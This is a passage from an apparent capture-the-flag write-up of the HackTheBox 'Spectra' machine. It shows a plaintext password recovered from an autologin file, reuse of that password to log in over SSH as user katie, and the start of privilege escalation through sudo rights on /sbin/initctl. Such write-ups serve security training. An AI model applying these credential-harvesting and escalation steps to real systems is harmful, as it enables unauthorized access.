 ```bash
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptc

cd /etc/autologin
ls -al
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
cat passwd
SummerHereWeCome!!
```

The password was then reused to login as `katie`:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh katie@10.10.10.229
Password: 
katie@spectra ~ $ whoami
katie
```

## Privilege Escalation

Enumerating `katie` privileges it was noticed that she was part of the `developers` group and she was able to run `/sbin/initctl` with high privileges:

```bash
katie@spectra /etc/init $ whoami
katie
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)

katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```
